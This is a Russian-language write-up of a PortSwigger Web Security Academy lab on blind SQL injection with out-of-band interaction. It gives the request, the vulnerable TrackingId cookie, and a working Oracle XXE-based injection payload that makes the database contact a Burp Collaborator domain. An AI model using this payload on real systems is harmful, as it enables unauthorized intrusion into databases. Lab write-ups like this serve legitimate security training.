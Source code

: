 ```yaml
---
title: "Blind SQL injection with out-of-band interaction"
date: 2025-06-13
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-using-out-of-band-oast-techniques/sql-injection/blind/lab-out-of-band"
classes: wide
---
```


В данной лабе есть уязвимый к **SQL injection** параметр `Cookie`. Запрос к БД запускается асинхронно, поэтому никак не влияет на ответ. Для решения лабы нужно отправить DNS запрос к `Burp Collaborator`.


```
https://0a8500ef03aa5fd281efe8270034003c.web-security-academy.net/
```

## Solution

По заданию известно, что уязвимость находится в `Cookie`. Возьму `GET`-запрос:

```http
GET / HTTP/2
Host: 0a8500ef03aa5fd281efe8270034003c.web-security-academy.net
Cookie: TrackingId=F8R1WWvhijoYZAbM; session=KbXKZqzTaucV6CezahGZai67UgXaWktO
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500ef03aa5fd281efe8270034003c.web-security-academy.net/filter?category=Accessories
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Опыт решения предыдущих лаб подсказывает мне, что уязвимый параметр — это `TrackingId`. Для задания пейлоады подсмотрим на [странице](https://portswigger.net/web-security/sql-injection/cheat-sheet).

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Теперь добавлю к нему домен `Burp Collaborator` и сформирую пейлоад:

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//7pxkd3astpvmpnv6uc9icczxbohf5gt5.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_out-of-band_interaction/1.png){: height="200" .align-center}

Получилось:3 ☕

